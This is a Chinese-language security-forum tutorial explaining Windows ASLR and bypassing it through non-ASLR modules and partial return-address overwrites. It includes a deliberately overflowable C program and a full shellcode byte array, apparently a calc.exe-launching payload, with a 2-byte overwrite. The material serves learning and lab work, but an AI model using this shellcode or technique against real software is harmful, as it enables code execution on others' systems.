# Windows 下的 ASLR 保护机制详解及其绕过 - 先知社区

Windows 下的 ASLR 保护机制详解及其绕过

- - -

我们前面已经详细介绍过 GS，SafeSEH，和 DEP 保护机制，大家想一想，如果没有开启任何保护，如果程序存在漏洞我们是不是很容易攻击成功？就算开了前面已经介绍过的保护，我们也有很容易的方法突破这些保护，进而完成攻击。  
那么我们再次站在开发者的角度，我们如何制定一种保护机制，从而让攻击很难完成呢？站在开发者的角度，相信我们能够更容易了解到 ASLR 保护机制，我们接下来就来看看 ASLR：

# 一.ASLR 保护机制详解

攻击者在攻击的时候，是瞄准了进程内的一个地址（shellcode 起始地址或者是跳板地址），从而进行攻击的，那我们有没有办法让攻击者的这个地址无效呢？  
我们知道在进程加载的时候，有自己的虚拟内存空间，首先将自己的 PE 文件加载入内存，然后加载所需模块的 PE，而这些地址都是固定的，从而让攻击者瞄准了去攻击，所谓惹不起我们还躲不起吗？我们想办法，让这些地址在加载的时候随机化，是不是就可以让攻击者的地址无效了呢？  
实际上 ASLR 保护机制也就是这样做的：我们知道在 PE 文件中有一个 ImageBase 字段，标识了程序加载基址，exe 通常都是一个进程加载的第一个文件，所以通常不需要重定位，而 DLL 需要重定位。我们开启了 ASLR 保护机制之后，实际上就是 ImageBase 随机化了。  
实际上，ASLR 保护机制在 Windows XP 版本的时候就已经出现了，但是那时候只是对 PEB 和 TEB 做了简单的随机化处理，并没有对模块的加载基址随机化。  
与 SafeSEH 类似，ASLR 的实现也需要操作系统和应用程序的双重支持，而其中，应用程序的支持不是必须的。  
我们来看看 PE 文件结构：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228151901-a5c8d262-d609-1.png)

我们可以看到在程序拓展头里面有一个字段：`IMAGE_DLL_CHARACTERISTICS_SYNAMIC_BASE`，这个字段就标识了其是否支持 ASLR。  
实际上，ASLR 是对很多地方都做了随机化，我们来详细看看：

1.  映像基址随机化：  
    当 PE 文件映射到内存的时候，对其加载的虚拟地址进行随机化处理，注意这个地址实在系统启动时确定的，在重启系统后，这个地址就会变化。  
    在前面的介绍中，我们都知道为了兼容性而牺牲了很多安全性，让攻击者有了可乘之机，而对于 ASLR 保护机制，出于兼容性考虑，也是做了一些操作：  
    在注册表中，可以设定映像随机化的工作模式：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\MoveImage`，在这个注册表项下可以设置，当设置为 0 时，映像随机化将被禁用、设置为 -1 时，可以强制对可随机化的映像进行处理，无论是否设置`IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE`标识、设置为其他值时，标识映像基址随机化正常工作。  
    通常情况下，我们使用的计算机是没有 MoveImage 表项的，大家可以手动建立一个名称为 MoveImage 的表项，类型为 DWORD：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228162931-7f12fe54-d613-1.png)

1.  堆栈随机化  
    前面文章介绍过的绕过保护的方式，我们可以将 shellcode 写道堆栈上，然后劫持程序执行流，让其去执行 ShellCode，ASLR 保护基址将堆栈地址也做了随机化，这样攻击者的目标地址就会变成了无效地址。与映像基址随机化不同的是，堆栈随机化是在程序启动的时候确定的，也就是说，在任何两次启动一个进程的时候，堆栈地址都不相同。
2.  PEB 与 TEB 随机化  
    前面我们说过了，PEB 与 TEB 的随机化在 Windows XP 版本的时候就已经提出来了，在没有保护之前，PEB 和 TEB 的地址都是固定的，这样让攻击者很容易在堆溢出中利用 PEB 和 TEB 中保存的函数指针进行攻击，而在开启了保护后，PEB 与 TEB 的保存地址也做到了随机化。  
    \# 二.ASLR 保护机制绕过方式分析  
    我们前面已经详细介绍过了 ASLR 保护机制，大家对于绕过 ASLR 机制有没有什么思路？这里我来讲讲我了解到的思路：
3.  我们知道在进程启动的时候，会对映像机制随机化，那么，如果说，一个应用程序中用到的 DLL 没有开启随机化呢？答案是：这个 DLL 的加载地址固定，那么，我们就可以利用这个模块中的地址来进行攻击，而这个模块，还真的找起来很容易，比如我们通常会使用的 Adobe Flash Player ActiveX。
4.  我们知道在应用程序启动的时候，会对堆栈地址做随机化，那么我们就来写一个程序，来看看对地址的随机化到底做到了什么程度：  
    这里为了凸显 ASLR 保护机制，我们这里只开启 ASLR 保护。  
    在这里关闭 ASLR 保护：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228154255-fc5fbdb8-d60c-1.png)

在这里将运行时基本检查设置为默认值，关闭 GS 保护：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228154502-47afd82a-d60d-1.png)

在这里关闭 DEP，开启 ASLR：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228154610-70902574-d60d-1.png)

然后我们编写一段非常简单的程序，我们来看看堆栈随机化具体情况：

```plain
#define _CRT_SECURE_NO_WARNINGS
#include <stdio.h>

void test() {
    char szBuffer[20]{ 0 };
    scanf("%s", szBuffer);
    printf("%s", szBuffer);
}

int main() {

    printf("Hello ASLR!!!");

    return 0;
}
```

然后我们启动程序，来到内存布局看看程序的加载地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228163055-b0c7265a-d613-1.png)

可以看到，这里的加载地址为`0x00FC0000`，然后我们再次启动程序，来看看加载地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228163244-f1c4fcc2-d613-1.png)

大家可以将计算机重启，这样程序加载基址就会变化，大家多试几次，就可以发现一个问题：映像基址只有前两个字节会随机化，比如说，我们启动应用程序，一个指令的地址为`0x12345678`，如果程序映像基址随机化，它只会随机前两个字节，就是说，最后的 5678 不会变，只有前面的 1234 会变化，那么既然是这样，那我们在覆盖的时候，只需要覆盖最后的两个字节就可以了，前面的两个字节操作系统已经帮我们填好了，这样的话，我们利用漏洞函数，就可以劫持程序流程，让其跳转到地址范围为`0x12340000`到`0x123400FF`的地址范围执行了，很明显，在这中保护机制下，我们的可控范围变小了。

# 三.ASLR 的绕过方式

我们已经分析过了这种保护机制下的绕过方式，这里我们就来看看具体的绕过操作：

## 1.攻击未启用 ASLR 保护机制的模块

这种绕过方式，实际上不算是正面绕过 ASLR，因为我们的跳板指令根本就没有开启 ASLR 保护，我们可以利用覆盖返回地址等等很多方式去绕过，这里不再赘述了。

## 2.利用部分地址覆盖绕过 ASLR

前面分析过，映像机制随机化的时候只会将前两个字节随机化，那么我们可以将后两个字节随机化，这样就还是可以劫持程序执行流程。  
我们来编写一个含有漏洞应用程序：

```plain
#include <stdio.h>
#include <Windows.h>

char ShellCode[202];

void test(char *szBuffer) {
    char str[196]{ 0 };
    memcpy(str, szBuffer, 202);
}

int main() {
    memset(ShellCode, 0, 202);
    HANDLE hFile = CreateFileA(
        "G:\\漏洞原理\\ASLR\\Debug\\111.txt",
        GENERIC_READ,
        NULL, NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL, NULL
    );
    DWORD dwReadSize = 0;
    ReadFile(hFile, ShellCode, 202, &dwReadSize, NULL);
    test(ShellCode);

    return 0;
}
```

可以看到这里的 test 函数存在明显的溢出，我们先将 111.txt 设置为 200 个`\x90`，来分析一下程序：  
test 函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228170641-b02d05de-d618-1.png)

堆栈情况：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228170711-c1c7105a-d618-1.png)

由于我们没有开启 GS，超过 200 字节后将直接覆盖返回地址，现在我们知道返回地址的前两个字节（00FD）将会随机化，但是后面的两个字节是固定的，现在我们只要将我们 ShellCode 地址的后两字节用来覆盖返回地址即可执行 ShellCode：  
str 起始地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228170938-199735b2-d619-1.png)

现在我们将 Payload 这样布置：  
| ShellCode | \\x90 填充 | 2 字节覆盖地址 |  
|--|--|--|

现在我们要如何跳转到 ShellCode 开始执行呢？观察寄存器，发现进行内存复制后，eax 指向 str，也就是我们的 ShellCode 地址，我们只需要一个 call eax 或者 jmp eax 就可以执行我们的 ShellCode 了，我们来搜索一下 gadgets：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228172611-696e01c2-d61b-1.png)

这里我们只能使用第一个，因为前两个字节是随机的，我们无法控制，这里将返回地址后两个字节覆盖为 23E5 后，正好可以指向这个跳板。

Payload：

```plain
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : G:\漏洞原理\ASLR\Debug\111.txt
// Address : 0 (0x0)
// Size    : 206 (0xCE)
//------------------------------------------------------------
unsigned char hexData[206] = {
    0xFC, 0xE8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89,
    0xE5, 0x31, 0xC0, 0x64, 0x8B, 0x50, 0x30, 0x8B,
    0x52, 0x0C, 0x8B, 0x52, 0x14, 0x8B, 0x72, 0x28,
    0x0F, 0xB7, 0x4A, 0x26, 0x31, 0xFF, 0xAC, 0x3C,
    0x61, 0x7C, 0x02, 0x2C, 0x20, 0xC1, 0xCF, 0x0D,
    0x01, 0xC7, 0xE2, 0xF2, 0x52, 0x57, 0x8B, 0x52,
    0x10, 0x8B, 0x4A, 0x3C, 0x8B, 0x4C, 0x11, 0x78,
    0xE3, 0x48, 0x01, 0xD1, 0x51, 0x8B, 0x59, 0x20,
    0x01, 0xD3, 0x8B, 0x49, 0x18, 0xE3, 0x3A, 0x49,
    0x8B, 0x34, 0x8B, 0x01, 0xD6, 0x31, 0xFF, 0xAC,
    0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0x38, 0xE0, 0x75,
    0xF6, 0x03, 0x7D, 0xF8, 0x3B, 0x7D, 0x24, 0x75,
    0xE4, 0x58, 0x8B, 0x58, 0x24, 0x01, 0xD3, 0x66,
    0x8B, 0x0C, 0x4B, 0x8B, 0x58, 0x1C, 0x01, 0xD3,
    0x8B, 0x04, 0x8B, 0x01, 0xD0, 0x89, 0x44, 0x24,
    0x24, 0x5B, 0x5B, 0x61, 0x59, 0x5A, 0x51, 0xFF,
    0xE0, 0x5F, 0x5F, 0x5A, 0x8B, 0x12, 0xEB, 0x8D,
    0x5D, 0x6A, 0x01, 0x8D, 0x85, 0xB2, 0x00, 0x00,
    0x00, 0x50, 0x68, 0x31, 0x8B, 0x6F, 0x87, 0xFF,
    0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x68, 0xA6,
    0x95, 0xBD, 0x9D, 0xFF, 0xD5, 0x3C, 0x06, 0x7C,
    0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
    0x13, 0x72, 0x6F, 0x6A, 0x00, 0x53, 0xFF, 0xD5,
    0x63, 0x61, 0x6C, 0x63, 0x2E, 0x65, 0x78, 0x65,
    0x00, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0xE5, 0x23 
};
```

然后我们再来启动程序，可以看到成功跳转到 ShellCode 进行执行：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228173039-095044ac-d61c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228173105-18ab3088-d61c-1.png)
